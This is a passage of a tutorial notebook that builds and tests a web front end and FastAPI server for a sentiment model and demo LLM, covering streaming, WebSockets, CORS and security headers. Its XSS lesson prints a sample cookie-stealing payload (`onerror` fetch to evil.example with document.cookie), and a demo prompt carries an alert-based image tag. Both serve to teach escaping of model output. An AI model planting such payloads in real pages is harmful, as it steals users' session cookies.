  button:disabled { opacity:.5; cursor:wait; }
  button:focus-visible, input:focus-visible, textarea:focus-visible { outline:3px solid #f5b400; outline-offset:2px; }
  .out { margin-top:10px; min-height:1.5em; white-space:pre-wrap; word-break:break-word; }
  .error { color:var(--bad); }
  .meter { height:10px; background:#e8ecf4; border-radius:5px; overflow:hidden; margin-top:6px; }
  .meter > div { height:100%; background:var(--accent); width:0; transition:width .3s; }
  .warn { color:#93370d; font-size:14px; }
  .small { font-size:13px; color:var(--muted); }
  table { width:100%; border-collapse:collapse; font-size:14px; margin-top:8px; }
  td, th { border-bottom:1px solid var(--line); padding:4px 6px; text-align:left; }
  #chat-log { height:150px; overflow-y:auto; border:1px solid var(--line); border-radius:6px; padding:6px; margin-bottom:6px; }
  .msg { margin:4px 0; } .msg.user { font-weight:600; }
</style>
</head>
<body>
<header><h1>AI Front-End Demo</h1><span id="status" role="status">Checking server...</span></header>
<main>
  <section aria-labelledby="h-predict">
    <h2 id="h-predict">1. Predict (fetch + JSON)</h2>
    <label for="predict-text">Text to classify</label>
    <textarea id="predict-text" rows="3" maxlength="2000">The delivery was fast and the product works great</textarea>
    <button id="predict-btn">Classify</button>
    <div id="predict-out" class="out" aria-live="polite"></div>
    <div class="meter" aria-hidden="true"><div id="predict-meter"></div></div>
    <div id="feedback-row" hidden>
      <span class="small">Was this right?</span>
      <button class="secondary" id="fb-up" aria-label="Yes, correct">&#128077;</button>
      <button class="secondary" id="fb-down" aria-label="No, wrong">&#128078;</button>
      <span id="fb-out" class="small" aria-live="polite"></span>
    </div>
  </section>

  <section aria-labelledby="h-upload">
    <h2 id="h-upload">2. Upload a file (multipart form)</h2>
    <label for="file-input">A .txt file, one review per line (max 100 KB)</label>
    <input id="file-input" type="file" accept=".txt,text/plain">
    <div id="upload-out" class="out" aria-live="polite"></div>
  </section>

  <section aria-labelledby="h-stream">
    <h2 id="h-stream">3. Stream a reply (Server-Sent Events)</h2>
    <label for="stream-prompt">Prompt</label>
    <input id="stream-prompt" type="text" maxlength="500" value="My order arrived broken">
    <button id="stream-btn">Generate</button>
    <button id="stop-btn" class="secondary" disabled>Stop</button>
    <div id="stream-out" class="out" aria-live="off"></div>
    <div id="stream-meta" class="small" aria-live="polite"></div>
  </section>

  <section aria-labelledby="h-chat">
    <h2 id="h-chat">4. Chat (WebSocket)</h2>
    <div id="chat-log" aria-live="polite"></div>
    <label for="chat-input">Message <span id="ws-state" class="small">(disconnected)</span></label>
    <input id="chat-input" type="text" maxlength="500" value="Hello! Can you help me?">
    <button id="chat-btn" disabled>Send</button>
  </section>
</main>
<script>
"use strict";
const $ = (id) => document.getElementById(id);

// Only needed if you build HTML strings. Prefer textContent, which never interprets HTML at all.
function escapeHtml(s) {
  return String(s).replace(/[&<>"']/g, (c) => ({"&": "&amp;", "<": "&lt;", ">": "&gt;", '"': "&quot;", "'": "&#39;"}[c]));
}

function errorMessage(status, body) {
  if (status === 422 && body && Array.isArray(body.detail)) return "Invalid input: " + body.detail.map((d) => d.msg).join("; ");
  if (body && typeof body.detail === "string") return body.detail;
  return "Server error (HTTP " + status + ")";
}

// fetch wrapper: timeout, JSON parsing, readable error messages
async function api(path, options = {}, timeoutMs = 10000) {
  const ctrl = new AbortController();
  const timer = setTimeout(() => ctrl.abort(), timeoutMs);
  try {
    const r = await fetch(path, {...options, signal: ctrl.signal});
    const isJson = (r.headers.get("content-type") || "").includes("application/json");
    const body = isJson ? await r.json() : await r.text();
    if (!r.ok) throw new Error(errorMessage(r.status, body));
    return body;
  } catch (e) {
    if (e.name === "AbortError") throw new Error("The server took too long to answer. Please try again.");
    if (e instanceof TypeError) throw new Error("Cannot reach the server. Check your connection.");
    throw e;
  } finally {
    clearTimeout(timer);
  }
}

function setBusy(button, busy, busyText) {
  if (busy) { button.dataset.label = button.textContent; button.textContent = busyText; }
  else if (button.dataset.label) { button.textContent = button.dataset.label; }
  button.disabled = busy;
  button.setAttribute("aria-busy", String(busy));
}

// ---------- status ----------
async function checkHealth() {
  try {
    const h = await api("/health", {}, 3000);
    $("status").textContent = "Server OK - model " + h.model_version + " - LLM: " + h.llm_backend;
  } catch (e) {
    $("status").textContent = "Server unavailable: " + e.message;
  }
}

// ---------- 1. predict ----------
let lastPrediction = null;
async function runPredict() {
  const out = $("predict-out"), btn = $("predict-btn");
  out.classList.remove("error");
  setBusy(btn, true, "Thinking...");
  try {
    const text = $("predict-text").value;
    const p = await api("/predict", {method: "POST", headers: {"Content-Type": "application/json"}, body: JSON.stringify({text})});
    lastPrediction = {request_text: text, model_output: p.label + " " + p.confidence};
    out.textContent = (p.label === "positive" ? "Positive" : "Negative") + " - " + Math.round(p.confidence * 100) + "% confident"
                      + (p.low_confidence ? "  (not sure: please double-check)" : "") + "  [" + p.latency_ms + " ms]";
    $("predict-meter").style.width = Math.round(p.confidence * 100) + "%";
    $("feedback-row").hidden = false;
    $("fb-out").textContent = "";
  } catch (e) {
    out.textContent = e.message;
    out.classList.add("error");
  } finally {
    setBusy(btn, false);
  }
}

async function sendFeedback(rating) {
  if (!lastPrediction) return;
  try {
    await api("/feedback", {method: "POST", headers: {"Content-Type": "application/json"},
                            body: JSON.stringify({...lastPrediction, rating})});
    $("fb-out").textContent = "Thanks, feedback saved.";
  } catch (e) { $("fb-out").textContent = "Could not save feedback: " + e.message; }
}

// ---------- 2. upload ----------
async function runUpload(file) {
  const out = $("upload-out");
  out.classList.remove("error");
  out.textContent = "Uploading " + file.name + "...";
  const form = new FormData();
  form.append("file", file);                       // no Content-Type header: the browser sets the multipart boundary
  try {
    const d = await api("/upload", {method: "POST", body: form}, 20000);
    // Building HTML from a template string: EVERY value from the server goes through escapeHtml.
    const rows = d.results.slice(0, 5).map((r) =>
      "<tr><td>" + escapeHtml(r.text) + "</td><td>" + escapeHtml(r.label) + "</td><td>" + escapeHtml(r.confidence) + "</td></tr>").join("");
    out.innerHTML = "<div>" + escapeHtml(d.filename) + ": " + d.n_positive + " positive, " + d.n_negative + " negative</div>"
                  + "<table><thead><tr><th>Text</th><th>Label</th><th>Conf.</th></tr></thead><tbody>" + rows + "</tbody></table>";
  } catch (e) {
    out.textContent = e.message;
    out.classList.add("error");
  }
}

// ---------- 3. streaming with EventSource ----------
let source = null;
function runStream() {
  const out = $("stream-out"), meta = $("stream-meta");
  const prompt = $("stream-prompt").value.trim();
  if (!prompt) { meta.textContent = "Please type a prompt."; return; }
  out.textContent = ""; meta.textContent = "Waiting for the first token...";
  const t0 = performance.now(); let ttft = null; let n = 0;
  source = new EventSource("/stream?prompt=" + encodeURIComponent(prompt));
  $("stream-btn").disabled = true; $("stop-btn").disabled = false;
  const finish = (msg) => { source.close(); source = null; $("stream-btn").disabled = false; $("stop-btn").disabled = true; meta.textContent = msg; };
  source.addEventListener("token", (ev) => {
    const {token} = JSON.parse(ev.data);
    if (ttft === null) ttft = performance.now() - t0;
    n += 1;
    out.textContent += token;                       // textContent: model output can never become HTML or script
  });
  source.addEventListener("done", () => finish("Done: " + n + " tokens, first token after " + Math.round(ttft) + " ms, total " + Math.round(performance.now() - t0) + " ms"));
  source.onerror = () => { if (source) finish("Connection lost. Partial answer kept above."); };
}
function stopStream() { if (source) { source.close(); source = null; } $("stream-btn").disabled = false; $("stop-btn").disabled = true; $("stream-meta").textContent = "Stopped by you."; }

// ---------- 4. chat with WebSocket ----------
let ws = null, currentReply = null, retries = 0;
function addMsg(role, text) {
  const div = document.createElement("div");
  div.className = "msg " + role;
  div.textContent = (role === "user" ? "You: " : "AI: ") + text;
  $("chat-log").appendChild(div);
  $("chat-log").scrollTop = $("chat-log").scrollHeight;
  return div;
}
function connectChat() {
  const proto = location.protocol === "https:" ? "wss://" : "ws://";
  ws = new WebSocket(proto + location.host + "/chat");
  ws.onopen = () => { retries = 0; $("ws-state").textContent = "(connected)"; $("chat-btn").disabled = false; if (window.onChatReady) window.onChatReady(); };
  ws.onmessage = (ev) => {
    const m = JSON.parse(ev.data);
    if (m.type === "start") currentReply = addMsg("ai", "");
    else if (m.type === "token") currentReply.textContent += m.token;
    else if (m.type === "error") addMsg("ai", "[error] " + m.detail);
  };
  ws.onclose = () => {                              // reconnect with exponential backoff (1 s, 2 s, 4 s ... max 30 s)
    $("ws-state").textContent = "(reconnecting...)"; $("chat-btn").disabled = true;
    setTimeout(connectChat, Math.min(30000, 1000 * 2 ** retries++));
  };
}
function sendChat() {
  const text = $("chat-input").value.trim();
  if (!text || !ws || ws.readyState !== WebSocket.OPEN) return;
  addMsg("user", text);
  ws.send(JSON.stringify({message: text}));
  $("chat-input").value = "";
}

// ---------- wiring (no inline onclick="": the CSP would block it) ----------
$("predict-btn").addEventListener("click", runPredict);
$("fb-up").addEventListener("click", () => sendFeedback("up"));
$("fb-down").addEventListener("click", () => sendFeedback("down"));
$("file-input").addEventListener("change", (e) => { if (e.target.files[0]) runUpload(e.target.files[0]); });
$("stream-btn").addEventListener("click", runStream);
$("stop-btn").addEventListener("click", stopStream);
$("chat-btn").addEventListener("click", sendChat);
$("chat-input").addEventListener("keydown", (e) => { if (e.key === "Enter") sendChat(); });
checkHealth();
connectChat();

// ?demo=1 fills in every card automatically (used for the headless screenshot in the notebook)
if (new URLSearchParams(location.search).has("demo")) {
  $("stream-prompt").value = "<img src=x onerror=alert(1)> my order arrived broken and the box was wet, what now?";
  runPredict();
  // chat and stream run in parallel; the (longer) SSE stream keeps headless Chrome waiting until both are done
  window.onChatReady = () => { window.onChatReady = null; sendChat(); runStream(); };
}
</script>
</body>
</html>
'''
(WORK / 'static' / 'index.html').write_text(INDEX_HTML, encoding='utf-8')
print(f"index.html written: {len(INDEX_HTML.splitlines())} lines")

index.html written: 257 lines


### XSS: why model output must be treated as untrusted

**Cross-site scripting (XSS)** happens when text that someone else controls is inserted into a page *as HTML*, and the browser runs it. With AI apps the "someone else" includes the **model**: an LLM can be talked into (or simply happen to) output `<img src=x onerror=...>`, and a RAG system repeats text from documents an attacker wrote (see [LLM security](../08_LLM/16_llm_security.ipynb)). The rule: **render model output as text** (`textContent`, or React's `{text}`), or escape it, or sanitise it (e.g. DOMPurify) if you really need Markdown/HTML. The cell below shows the difference using Python's `html.escape`, which does the same job as our `escapeHtml`.

In [9]:
import html

model_output = 'Sure! <img src=x onerror="fetch(`https://evil.example/?c=`+document.cookie)">'
print("Inserted with innerHTML (DANGEROUS):", model_output)
print("Escaped first (safe):               ", html.escape(model_output))

# A tiny "lint" for our page: every innerHTML assignment must only contain escaped values or constants.
lines = [ln.strip() for ln in INDEX_HTML.splitlines() if "innerHTML" in ln and "=" in ln]
print(f"\ntextContent uses: {INDEX_HTML.count('textContent')}, innerHTML uses: {len(lines)}")
for ln in lines:
    print("  ", ln[:110])

Inserted with innerHTML (DANGEROUS): Sure! <img src=x onerror="fetch(`https://evil.example/?c=`+document.cookie)">
Escaped first (safe):                Sure! &lt;img src=x onerror=&quot;fetch(`https://evil.example/?c=`+document.cookie)&quot;&gt;

textContent uses: 24, innerHTML uses: 1
   out.innerHTML = "<div>" + escapeHtml(d.filename) + ": " + d.n_positive + " positive, " + d.n_negative + " nega


**What just happened?** Escaping turns `<` into `&lt;` and `"` into `&quot;`, so the browser displays the characters instead of creating an `<img>` element. Our page uses `textContent` many times and `innerHTML` only once, for the upload table, where every server value passes through `escapeHtml`. Compare with [`21_Projects/06_production_model/templates/index.html`](../21_Projects/06_production_model/templates/index.html), which builds table rows with template strings: fine for numbers from your own model, risky as soon as any free text appears.

---
## 7. Run the server and exercise every endpoint

> **In plain words:** we start the server for real, press every "button" from Python, check the answers, and switch it off.

`LocalServer` starts `uvicorn app:app` as a **child process** (a separate program, exactly like in production), waits until `/health` answers, and stops it reliably:

- `start()` stops the process again if startup fails;
- `guard()` is a context manager used by every test cell below: if anything inside raises, the server is terminated before the error is shown (a `try/except` that stops and re-raises);
- the final cell of this section stops it inside a `try/finally`, and `atexit` stops it if the kernel shuts down early.

We only ever stop the **one process we started** (by its handle), never "all python processes".

In [10]:
class LocalServer:
    """Run `uvicorn <app>` in a child process on 127.0.0.1 and always stop it."""

    def __init__(self, app_dir, port, app="app:app", env=None):
        self.app_dir, self.port, self.app = Path(app_dir), port, app
        self.env = {**os.environ, **(env or {})}
        self.url = f"http://127.0.0.1:{port}"
        self.proc, self.log = None, None

    def start(self, timeout_s=60):
        self.log_path = self.app_dir / f"server_{self.port}.log"     # one log file per server
        self.log = open(self.log_path, "w")                          # uvicorn's own log goes to a file
        self.proc = subprocess.Popen(
            [sys.executable, "-m", "uvicorn", self.app, "--host", "127.0.0.1", "--port", str(self.port),
             "--app-dir", str(self.app_dir)],
            stdout=self.log, stderr=subprocess.STDOUT, env=self.env)
        atexit.register(self.stop)                                   # safety net
        try:
            deadline = time.time() + timeout_s
            while time.time() < deadline:
                if self.proc.poll() is not None:                     # the process died during startup
                    raise RuntimeError("Server crashed:\n" + self.log_tail())
                try:
                    if httpx.get(self.url + "/health", timeout=1).status_code == 200:
                        return self
                except httpx.TransportError:                          # not listening yet
                    time.sleep(0.1)
            raise TimeoutError(f"Server not ready after {timeout_s} s")
        except BaseException:
            self.stop()
            raise

    def stop(self):
        if self.proc is not None and self.proc.poll() is None:
            self.proc.terminate()                                    # polite: SIGTERM, uvicorn shuts down cleanly
            try:
                self.proc.wait(timeout=10)
            except subprocess.TimeoutExpired:
                self.proc.kill()                                     # not polite, but guaranteed
                self.proc.wait()
        if self.log is not None and not self.log.closed:
            self.log.close()

    @property
    def running(self):
        return self.proc is not None and self.proc.poll() is None

    def log_tail(self, n=15):
        self.log.flush()
        return "".join(self.log_path.read_text().splitlines(keepends=True)[-n:])

    @contextmanager
    def guard(self):
        """Stop the server if the code inside the `with` block fails."""
        try:
            yield self
        except BaseException:
            self.stop()
            raise


PORT = free_port(start=8250)
server = LocalServer(WORK, PORT, env={"ALLOWED_ORIGINS": "http://localhost:5173", "TOKEN_DELAY_S": "0.03"})
t0 = time.perf_counter()
server.start()
print(f"Server running on port {PORT} (ready after {time.perf_counter() - t0:.1f} s)")
BASE = server.url

Server running on port 8250 (ready after 12.5 s)


### 7.1 `GET /health`

In [11]:
with server.guard():
    r = httpx.get(BASE + "/health")
    print(r.status_code, json.dumps(r.json(), indent=2))

200 {
  "status": "ok",
  "model_loaded": true,
  "model_version": "sentiment-tfidf-lr-v1",
  "llm_backend": "fake",
  "uptime_s": 0.3,
  "stats": {
    "predictions": 0,
    "streams_started": 0,
    "streams_completed": 0,
    "streams_cancelled": 0,
    "chat_messages": 0
  }
}


### 7.2 `POST /predict`: valid input, uncertain input and invalid input

The last three requests are *supposed* to fail: an empty string, a 3,000-character string and a missing field. Look at how precise FastAPI's `422` errors are: the frontend can show them directly (our `errorMessage()` joins the `msg` fields).

In [12]:
with server.guard():
    for text in ["The delivery was fast and the product works great", "It is a lamp."]:
        r = httpx.post(BASE + "/predict", json={"text": text})
        print(r.status_code, r.json())

    bad_requests = {"empty text": {"text": ""}, "too long": {"text": "a" * 3000}, "missing field": {"txt": "hi"}}
    for name, body in bad_requests.items():
        r = httpx.post(BASE + "/predict", json=body)
        detail = r.json()["detail"][0]
        print(f"{name:13} -> {r.status_code}  loc={detail['loc']}  msg={detail['msg']!r}")

200 {'label': 'positive', 'confidence': 0.8167, 'low_confidence': False, 'model_version': 'sentiment-tfidf-lr-v1', 'latency_ms': 5.94}
200 {'label': 'positive', 'confidence': 0.5614, 'low_confidence': True, 'model_version': 'sentiment-tfidf-lr-v1', 'latency_ms': 1.83}


empty text    -> 422  loc=['body', 'text']  msg='String should have at least 1 character'


too long      -> 422  loc=['body', 'text']  msg='String should have at most 2000 characters'


missing field -> 422  loc=['body', 'text']  msg='Field required'


### 7.3 How fast is `/predict`? (checking a latency budget)

We send 200 requests over one keep-alive connection and compare the time the **client** sees with the `latency_ms` the **server** reports. The difference is framework, JSON and network overhead. Our budget for a "classify" button is **p95 < 100 ms** (feels instant, see section 10).

In [13]:
with server.guard():
    client_ms, server_ms = [], []
    with httpx.Client(base_url=BASE) as client:                 # reuse one TCP connection, like a browser does
        for i in range(200):
            t = time.perf_counter()
            r = client.post("/predict", json={"text": texts[i]})
            client_ms.append((time.perf_counter() - t) * 1000)
            server_ms.append(r.json()["latency_ms"])
    lat = pd.DataFrame({"client-side ms": client_ms, "server-side ms": server_ms})
    print(lat.describe(percentiles=[0.5, 0.95, 0.99]).loc[["mean", "50%", "95%", "99%"]].round(2))
    p95 = np.percentile(client_ms, 95)
    print(f"\nclient p95 = {p95:.1f} ms -> budget of 100 ms {'MET' if p95 < 100 else 'MISSED'}")

      client-side ms  server-side ms
mean           17.27            2.15
50%            16.65            1.83
95%            28.10            4.99
99%            32.24            5.99

client p95 = 28.1 ms -> budget of 100 ms MET


**What just happened?** The model itself needs only a few milliseconds (server-side column); the client sees more, because each request also pays for HTTP parsing, validation, JSON serialisation and (on a busy machine) waiting for a CPU core. Both are far inside the 100 ms budget. On a real network add the round-trip time (10–100 ms across a country). Always measure **percentiles** (p95, p99), not just the mean: the slow requests are the ones users complain about.

### 7.4 `POST /upload`: a good file and three bad ones

In [14]:
with server.guard():
    good = "\n".join(["The kettle works great, five stars.", "The lamp arrived broken, I want a refund.",
                      "", "Support was amazing and the delivery was fast."]).encode()
    r = httpx.post(BASE + "/upload", files={"file": ("reviews.txt", good, "text/plain")})
    d = r.json()
    print(r.status_code, {k: d[k] for k in ["filename", "n_lines", "n_positive", "n_negative"]})
    print(pd.DataFrame(d["results"]).to_string(index=False))

    print()
    for name, (fname, data) in {"wrong type": ("photo.png", b"\x89PNG..."),
                                "too large": ("big.txt", b"x" * 120_000),
                                "not UTF-8": ("latin1.txt", "café".encode("latin-1"))}.items():
        r = httpx.post(BASE + "/upload", files={"file": (fname, data, "text/plain")})
        print(f"{name:10} -> {r.status_code} {r.json()['detail']}")

200 {'filename': 'reviews.txt', 'n_lines': 3, 'n_positive': 2, 'n_negative': 1}
                                          text    label  confidence  low_confidence
           The kettle works great, five stars. positive      0.8823           False
     The lamp arrived broken, I want a refund. negative      0.8144           False
Support was amazing and the delivery was fast. positive      0.7516           False



wrong type -> 415 Please upload a .txt file (one review per line).


too large  -> 413 File too large (limit 100 KB).
not UTF-8  -> 400 File is not valid UTF-8 text.


**What just happened?** The blank line was skipped, and each bad file got a **specific status code**: `415 Unsupported Media Type`, `413 Content Too Large`, `400 Bad Request`. The frontend can show these messages to the user as they are.

> ⚠️ **Common mistake:** relying only on the size check inside the handler. By the time our code runs, the multipart parser has already received the whole upload. In production also limit the body size at the reverse proxy (`client_max_body_size 1m;` in nginx) and never trust the file name or the `Content-Type` the client sends.

### 7.5 `GET /stream`: Server-Sent Events, raw and parsed

First we print the raw lines exactly as they arrive, then we parse them with a 15-line SSE parser and measure **time to first token (TTFT)** against total time.

In [15]:
def iter_sse(response):
    """Parse a text/event-stream response into (event, data) pairs. Handles multi-line data and comments."""
    event, data = "message", []
    for line in response.iter_lines():
        if line == "":                                   # a blank line ends one event
            if data:
                yield event, "\n".join(data)
            event, data = "message", []
        elif line.startswith(":"):                       # a comment / keep-alive ping
            continue
        else:
            field, _, value = line.partition(":")
            value = value[1:] if value.startswith(" ") else value
            if field == "event":
                event = value
            elif field == "data":
                data.append(value)


with server.guard():
    prompt = "My order arrived broken"
    with httpx.stream("GET", BASE + "/stream", params={"prompt": prompt}) as r:
        print("status:", r.status_code, "| content-type:", r.headers["content-type"])
        raw = []
        for line in r.iter_lines():
            raw.append(line)
            if len(raw) == 10:
                break
    print("first raw lines:")
    for line in raw:
        print("   ", repr(line))

    t0 = time.perf_counter()
    ttft, tokens, events = None, [], []
    with httpx.stream("GET", BASE + "/stream", params={"prompt": prompt}) as r:
        for event, data in iter_sse(r):
            events.append(event)
            if event == "token":
                ttft = ttft or (time.perf_counter() - t0)
                tokens.append(json.loads(data)["token"])
            elif event == "done":
                done = json.loads(data)
    total = time.perf_counter() - t0
    print("\nreply:", "".join(tokens).strip())
    print(f"events: {pd.Series(events).value_counts().to_dict()}  (server says n_tokens={done['n_tokens']})")
    print(f"time to first token = {ttft * 1000:.0f} ms, total = {total * 1000:.0f} ms")
    assert done["n_tokens"] == len(tokens) and ttft < total / 2
    STREAM_TIMES = {"ttft_s": ttft, "total_s": total, "n_tokens": len(tokens)}

status: 200 | content-type: text/event-stream; charset=utf-8
first raw lines:
    'retry: 3000'
    ''
    'event: meta'
    'data: {"sentiment": "negative", "backend": "fake"}'
    ''
    'event: token'
    'data: {"token": "Sorry "}'
    ''
    'event: token'
    'data: {"token": "to "}'



reply: Sorry to hear that. You said: My order arrived broken I am a tiny fake model, so this reply is a template, streamed one word at a time.
events: {'token': 28, 'meta': 1, 'done': 1}  (server says n_tokens=28)
time to first token = 295 ms, total = 1138 ms


**What just happened?** The first token arrived after a small fraction of the total time (one 30 ms token delay plus connection setup and the sentiment prediction), while the whole reply needed 28 tokens × 30 ms ≈ 0.85 s plus overhead, roughly a second. With a real LLM the gap is much larger (often 0.3 s vs 5–20 s). **Streaming does not make the model faster; it makes the wait feel shorter**, and the user can start reading (or press Stop) immediately. The `retry: 3000` line has no data, so the parser skips it.

### 7.6 Cancelling a stream

The user presses **Stop** (or closes the tab) after three tokens. The client closes the connection; Starlette notices the disconnect and cancels our generator, which increments `streams_cancelled`. With a real LLM, this is where generation stops and you **stop paying** for tokens nobody will read.

In [16]:
with server.guard():
    before = httpx.get(BASE + "/health").json()["stats"]
    with httpx.stream("GET", BASE + "/stream", params={"prompt": "Write a very long story"}) as r:
        got = 0
        for event, data in iter_sse(r):
            if event == "token":
                got += 1
                if got == 3:
                    break                                # leaving the `with` block closes the connection
    time.sleep(0.5)                                      # give the server a moment to notice
    after = httpx.get(BASE + "/health").json()["stats"]
    print(f"received {got} tokens, then closed the connection")
    print({k: after[k] - before[k] for k in ["streams_started", "streams_completed", "streams_cancelled"]})
    assert after["streams_cancelled"] - before["streams_cancelled"] == 1

received 3 tokens, then closed the connection
{'streams_started': 1, 'streams_completed': 0, 'streams_cancelled': 1}


### 7.7 `WS /chat`: a two-turn WebSocket conversation

One connection, two messages, each answered by a `start` message, many `token` messages and a `done` message. Then a connection that claims to come from `http://evil.example` is rejected by our `Origin` check.

In [17]:
with server.guard():
    if ws_client is None:
        print("The `websockets` package is not installed: skipping the WebSocket demo (pip install websockets).")
    else:
        ws_url = BASE.replace("http://", "ws://") + "/chat"
        with ws_client.connect(ws_url) as ws:
            for message in ["Hello, I love this kettle, it works great!", ""] + ["My lamp stopped working"]:
                ws.send(json.dumps({"message": message}))
                reply, n_tokens = "", 0
                while True:
                    m = json.loads(ws.recv(timeout=10))
                    if m["type"] == "token":
                        reply += m["token"]
                        n_tokens += 1
                    elif m["type"] == "error":
                        print(f"you: {message!r:30} -> error: {m['detail']}")
                        break
                    elif m["type"] == "start":
                        sentiment = m["sentiment"]
                    elif m["type"] == "done":
                        print(f"you: {message!r:30} -> [{sentiment}, {n_tokens} tokens, turn {m['turns_so_far']}] "
                              f"{reply.strip()[:60]}...")
                        break
        try:
            with ws_client.connect(ws_url, origin="http://evil.example") as ws:
                ws.send(json.dumps({"message": "hi"}))
                print("evil origin was accepted (should not happen)")
        except Exception as e:
            print("evil origin rejected:", type(e).__name__, "-", e)

you: 'Hello, I love this kettle, it works great!' -> [positive, 32 tokens, turn 1] Glad to hear that! You said: Hello, I love this kettle, it w...
you: ''                             -> error: Empty message.


you: 'My lamp stopped working'      -> [negative, 28 tokens, turn 2] Sorry to hear that. You said: My lamp stopped working I am a...
evil origin rejected: InvalidStatus - server rejected WebSocket connection: HTTP 403


**What just happened?** The connection kept state between messages (`turn 1`, then `turn 2`), the empty message got an `error` message without closing the socket, and a foreign origin got **HTTP 403** before the WebSocket was even opened.

### 7.8 CORS: who may call the API from a browser?

A browser sends a **preflight** `OPTIONS` request before a cross-origin `POST` with JSON. We simulate it for an allowed origin (a React dev server on `localhost:5173`) and a foreign one.

In [18]:
with server.guard():
    for origin in ["http://localhost:5173", "http://evil.example"]:
        r = httpx.options(BASE + "/predict", headers={"Origin": origin, "Access-Control-Request-Method": "POST",
                                                     "Access-Control-Request-Headers": "content-type"})
        print(f"{origin:23} -> {r.status_code}  Access-Control-Allow-Origin = "
              f"{r.headers.get('access-control-allow-origin', '(missing: the browser will block the call)')}")
    r = httpx.post(BASE + "/predict", json={"text": "great"}, headers={"Origin": "http://evil.example"})
    print(f"\nA non-browser client ignores CORS completely: POST with a foreign Origin -> {r.status_code}")

http://localhost:5173   -> 200  Access-Control-Allow-Origin = http://localhost:5173
http://evil.example     -> 400  Access-Control-Allow-Origin = (missing: the browser will block the call)



A non-browser client ignores CORS completely: POST with a foreign Origin -> 200


> ⚠️ **Common mistake:** thinking CORS is authentication. CORS only tells *browsers* whether a page from another site may *read* the response. `curl`, Python and attackers' servers ignore it (last line above). Protect APIs with authentication, rate limits and input validation; use CORS to control which **web frontends** can use your API from users' browsers.

> 🎓 **Exam / interview tip:** an **origin** is the triple *(scheme, host, port)*. `http://localhost:5173` and `http://localhost:8000` are **different origins** (different ports), so a React dev server calling a local FastAPI needs CORS (or a dev-server proxy).

### 7.9 The page itself, its security headers, and the feedback endpoint

In [19]:
with server.guard():
    r = httpx.get(BASE + "/", follow_redirects=True)
    print("GET / ->", [h.status_code for h in r.history], "->", r.status_code, r.headers["content-type"])
    print("X-Content-Type-Options:", r.headers["x-content-type-options"])
    print("Content-Security-Policy:")
    for directive in r.headers["content-security-policy"].split("; "):
        print("   ", directive)

    fb = [{"request_text": "It is a lamp.", "model_output": "positive 0.56", "rating": "down", "comment": "neutral text"},
          {"request_text": "The kettle works great", "model_output": "positive 0.81", "rating": "up"}]
    for item in fb:
        print("POST /feedback ->", httpx.post(BASE + "/feedback", json=item).status_code)
    print("bad rating ->", httpx.post(BASE + "/feedback", json={**fb[0], "rating": "meh"}).status_code)

GET / -> [307] -> 200 text/html; charset=utf-8
X-Content-Type-Options: nosniff
Content-Security-Policy:
    default-src 'self'
    script-src 'sha256-5pOBjB8PsaAQ0jfOxH7gdm6d20LMKT/nw56El3JNzJU='
    style-src 'sha256-mNcpvd6mEFmMYU1xQZvK/OB9aoCf8sV47RhEXMVLH3Q='
    connect-src 'self'
    img-src 'self' data:
    object-src 'none'
    base-uri 'none'
    frame-ancestors 'none'


POST /feedback -> 201


POST /feedback -> 201
bad rating -> 422


### 7.10 A headless-browser screenshot (optional)

If Google Chrome is installed, we open `index.html?demo=1` in **headless** mode (no window) and save a screenshot. This proves that the real browser runs our JavaScript under the strict CSP, talks to all endpoints and renders the HTML-looking prompt **as text**. If Chrome is not available, the cell just prints a message. (The millisecond numbers inside the screenshot come from Chrome's *virtual clock* in headless mode, so they are not real timings.)



In [20]:
CHROME = Path("/usr/bin/google-chrome")
with server.guard():
    if not CHROME.exists():
        print("Google Chrome not found: skipping the screenshot.")
    else:
        shot = WORK / "screenshot.png"
        cmd = [str(CHROME), "--headless", "--disable-gpu", "--no-first-run", "--hide-scrollbars",
               f"--user-data-dir={WORK / 'chrome-profile'}",         # throw-away profile
               "--window-size=1200,820", "--virtual-time-budget=60000",  # let timers and network finish
               f"--screenshot={shot}", BASE + "/static/index.html?demo=1"]
        try:
